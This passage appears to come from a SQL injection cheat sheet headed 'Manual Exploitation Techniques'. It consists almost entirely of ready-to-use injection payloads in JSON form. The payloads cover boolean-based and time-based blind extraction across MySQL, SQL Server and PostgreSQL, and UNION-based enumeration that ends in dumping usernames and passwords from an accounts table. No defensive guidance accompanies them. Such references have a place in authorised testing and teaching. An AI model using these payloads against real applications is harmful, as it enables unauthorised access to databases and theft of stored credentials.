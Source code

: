 
## Manual Exploitation Techniques

### Boolean-Based Blind Injection
```json
// Check for MySQL
{"id": "1' AND (SELECT COUNT(*) FROM information_schema.tables) > 0-- -"}

// Extract database name length
{"id": "1' AND LENGTH(database()) = 9-- -"}

// Extract database name character by character
{"id": "1' AND SUBSTRING(database(),1,1) = 's'-- -"}
{"id": "1' AND SUBSTRING(database(),2,1) = 'o'-- -"}

// Extract table names
{"id": "1' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database()) = 1-- -"}
{"id": "1' AND (SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1) = 'accounts'-- -"}
```

### Time-Based Blind Injection
```json
// MySQL time delays
{"id": "1' AND SLEEP(5)-- -"}
{"id": "1' AND IF(LENGTH(database())=9,SLEEP(5),0)-- -"}

// SQL Server time delays
{"id": "1'; WAITFOR DELAY '0:0:5'-- -"}
{"id": "1'; IF (LEN(DB_NAME())=9) WAITFOR DELAY '0:0:5'-- -"}

// PostgreSQL time delays
{"id": "1' AND (SELECT 1 FROM pg_sleep(5))-- -"}

// Conditional time delays
{"id": "1' AND (CASE WHEN (SUBSTRING(user(),1,1)='r') THEN SLEEP(5) ELSE 0 END)-- -"}
```

### Union-Based Injection
```json
// Determine number of columns
{"id": "1' ORDER BY 1-- -"}
{"id": "1' ORDER BY 2-- -"}
{"id": "1' ORDER BY 3-- -"}

// Test for UNION compatibility
{"id": "1' UNION SELECT NULL-- -"}
{"id": "1' UNION SELECT NULL,NULL-- -"}

// Extract database information
{"id": "1' UNION SELECT @@version,user()-- -"}
{"id": "1' UNION SELECT database(),NULL-- -"}

// Extract table data
{"id": "1' UNION SELECT table_name,NULL FROM information_schema.tables-- -"}
{"id": "1' UNION SELECT username,password FROM accounts-- -"}
```

---
